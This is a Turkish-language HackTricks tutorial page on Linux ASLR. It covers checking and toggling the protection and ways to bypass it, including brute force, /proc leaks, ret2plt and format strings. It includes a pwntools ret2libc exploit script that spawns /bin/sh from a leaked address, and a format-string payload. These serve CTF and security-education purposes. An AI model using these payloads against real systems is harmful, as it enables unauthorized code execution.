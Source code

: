# ASLR

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'ı desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [ABONELİK PLANLARI](https://github.com/sponsors/carlospolop)'na göz atın!
- [Resmi PEASS & HackTricks ürünlerini](https://peass.creator-spring.com) edinin
- [The PEASS Family](https://opensea.io/collection/the-peass-family)'i keşfedin, özel [NFT'lerimiz](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- 💬 [Discord grubuna](https://discord.gg/hRep4RUj7f) veya [telegram grubuna](https://t.me/peass) katılın veya bizi Twitter'da 🐦 [@hacktricks\_live](https://twitter.com/hacktricks\_live)'ı takip edin.
- Hacking püf noktalarınızı [HackTricks](https://github.com/carlospolop/hacktricks) ve [HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek paylaşın.

</details>

## Temel Bilgiler

**Adres Alanı Düzeni Rastgeleleştirme (ASLR)**, işletim sistemlerinde kullanılan bir güvenlik tekniğidir ve sistem ve uygulama süreçleri tarafından kullanılan bellek adreslerini **rastgeleleştirir**. Böylece, belirli süreçlerin ve verilerin konumunu, özellikle yığın, bellek havuzu ve kütüphaneleri tahmin etmek için saldırganın işini önemli ölçüde zorlaştırır ve belirli türdeki saldırıları, özellikle taşma saldırılarını azaltır.

### **ASLR Durumunu Kontrol Etme**

Bir Linux sistemde ASLR durumunu **kontrol etmek** için, `/proc/sys/kernel/randomize_va_space` dosyasındaki değeri okuyabilirsiniz. Bu dosyada saklanan değer, uygulanan ASLR türünü belirler:

- **0**: Rastgeleleştirme yok. Her şey statiktir.
- **1**: Muhafazakar rastgeleleştirme. Paylaşılan kütüphaneler, yığın, mmap(), VDSO sayfası rastgeleleştirilir.
- **2**: Tam rastgeleleştirme. Muhafazakar rastgeleleştirme tarafından rastgeleleştirilen öğelerin yanı sıra `brk()` ile yönetilen bellek de rastgeleleştirilir.

ASLR durumunu aşağıdaki komutla kontrol edebilirsiniz:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR'nin Devre Dışı Bırakılması**

ASLR'yi **devre dışı bırakmak** için `/proc/sys/kernel/randomize_va_space` değerini **0** olarak ayarlarsınız. ASLR'nin devre dışı bırakılması genellikle test veya hata ayıklama senaryoları dışında önerilmez. İşte nasıl devre dışı bırakılacağı:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Ayrıca, bir yürütme için ASLR'yi devre dışı bırakabilirsiniz:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR'yi Etkinleştirme**

ASLR'yi **etkinleştirmek** için, genellikle kök izinleri gerektiren `/proc/sys/kernel/randomize_va_space` dosyasına **2** değeri yazabilirsiniz. Tam rasgeleleştirme etkinleştirmek için aşağıdaki komutu kullanabilirsiniz:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Yeniden Başlatmalara Karşı Kalıcılık**

`echo` komutları ile yapılan değişiklikler geçicidir ve yeniden başlatıldığında sıfırlanacaktır. Değişikliği kalıcı hale getirmek için `/etc/sysctl.conf` dosyasını düzenlemeniz ve aşağıdaki satırı eklemeniz veya değiştirmeniz gerekmektedir:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
`/etc/sysctl.conf` dosyasını düzenledikten sonra değişiklikleri uygulamak için:
```bash
sudo sysctl -p
```
## **Atlatmalar**

### 32 bit kaba kuvvet saldırısı

PaX işlem adres alanını **3 gruba** böler:

* **Kod ve veri** (başlatılmış ve başlatılmamış): `.text`, `.data` ve `.bss` —> `delta_exec` değişkeninde **16 bit** entropi. Bu değişken her işlemle rastgele başlatılır ve başlangıç adreslerine eklenir.
* `mmap()` tarafından ayrılan **bellek** ve **paylaşılan kütüphaneler** —> **16 bit**, `delta_mmap` olarak adlandırılır.
* **Yığın** —> **24 bit**, `delta_stack` olarak adlandırılır. Ancak, etkili olarak **11 bit** kullanır (10. ile 20. bayt arasında dahil), **16 bayt**'a hizalanmıştır —> Bu, **524,288 olası gerçek yığın adresine** yol açar.

Önceki veriler 32 bit sistemler içindir ve azaltılmış son entropi, saldırı başarılı bir şekilde tamamlanana kadar işlemi tekrar tekrar deneyerek ASLR'yi atlamayı mümkün kılar.

#### Kaba kuvvet fikirleri:

* **Kabul edilebilir büyüklükte bir taşma** varsa, kabuk kodundan önce **büyük bir NOP kaydı barındırabilirsiniz**, yığında adresleri kaba kuvvetle deneyerek akışın **NOP kaydının bir kısmını atlamasını** sağlayabilirsiniz.
* Taşma o kadar büyük değilse ve saldırı yerel olarak çalıştırılabilirse, **NOP kaydını ve kabuk kodunu bir ortam değişkenine eklemek** mümkündür.
* Saldırı yerel ise, libc'nin temel adresini kaba kuvvetle deneyebilirsiniz (32 bit sistemler için faydalıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Uzak bir sunucuyu hedef alıyorsanız, `usleep` `libc` fonksiyonunun adresini **10 (örneğin) olarak argüman geçerek** **brute-force** yapabilirsiniz. Eğer sunucu cevap vermek için **10 saniye daha fazla zaman alıyorsa**, bu fonksiyonun adresini buldunuz demektir.

{% hint style="success" %}
64 bit sistemlerde entropi çok daha yüksektir ve bu mümkün değildir.
{% endhint %}

### Yerel Bilgiler (`/proc/[pid]/stat`)

Bir işlemin **`/proc/[pid]/stat`** dosyası her zaman herkes tarafından okunabilir ve içinde şu gibi **ilginç bilgiler** bulunur:

* **startcode** & **endcode**: **Binary**'nin **TEXT**'inin üstünde ve altındaki adresler
* **startstack**: **Stack**'in başlangıç adresi
* **start\_data** & **end\_data**: **BSS**'nin üstünde ve altındaki adresler
* **kstkesp** & **kstkeip**: Mevcut **ESP** ve **EIP** adresleri
* **arg\_start** & **arg\_end**: **cli argümanlarının** üstünde ve altındaki adresler
* **env\_start** & **env\_end**: **Çevre değişkenlerinin** üstünde ve altındaki adresler

Bu nedenle, saldırgan, söz konusu binary'nin aynı bilgisayarda olduğu ve bu binary'nin ham argümanlardan taşma beklemiyor olması durumunda, ancak bu dosyayı okuduktan sonra oluşturulabilecek farklı bir **girişten taşma** bekliyorsa, saldırganın bu dosyadan bazı adresleri alıp bunlardan taşma saldırısı için ofsetler oluşturması mümkündür.

{% hint style="success" %}
Bu dosya hakkında daha fazla bilgi için [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde `/proc/pid/stat` araması yapın.
{% endhint %}

### Sızıntıya Sahip Olmak

* **Zorluk, bir sızıntı vermektedir**

Eğer bir sızıntı verilmişse (kolay CTF zorlukları), bu sızıntıdan ofsetleri hesaplayabilirsiniz (örneğin, söz konusu sistemin kullandığı kesin libc sürümünü bildiğinizi varsayalım). Bu örnek saldırı, [**buradaki örneğin**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) çıkarımından alınmıştır (daha fazla ayrıntı için o sayfaya bakın):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Tampon taşması kullanılarak bir **ret2plt**'yi istismar etmek, libc'den bir işlevin adresini dışa aktarmak mümkün olacaktır. Kontrol edin:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Ret2plt'de olduğu gibi, bir format dizileri zafiyeti aracılığıyla keyfi okuma yapabilirseniz, bir **libc işlevi**nin adresini GOT'tan dışa aktarmak mümkündür. Aşağıdaki [**örnek buradan alınmıştır**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Format Strings arbitrary read hakkında daha fazla bilgiyi şurada bulabilirsiniz:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

ASLR'yi bypass etmeye çalışın ve stack içindeki adresleri istismar edin:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
